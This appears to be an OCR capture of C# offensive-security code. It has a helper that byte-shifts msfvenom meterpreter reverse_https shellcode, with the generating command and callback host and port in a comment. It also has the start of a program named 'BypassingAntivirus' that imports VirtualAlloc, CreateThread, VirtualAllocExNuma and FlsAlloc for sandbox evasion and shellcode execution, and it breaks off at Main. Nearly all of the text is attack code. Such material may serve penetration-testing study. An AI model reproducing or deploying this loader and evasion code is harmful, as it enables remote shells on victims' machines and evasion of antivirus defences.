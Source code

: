 ```csharp
using System;
using System.Text;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp 
            byte[] buf = new byte[695] { ... };

            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

```csharp
using System;
using System.Runtime.InteropServices;

namespace BypassingAntivirus
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr FlsAlloc(IntPtr callback);

        static void Main(string[] args)
```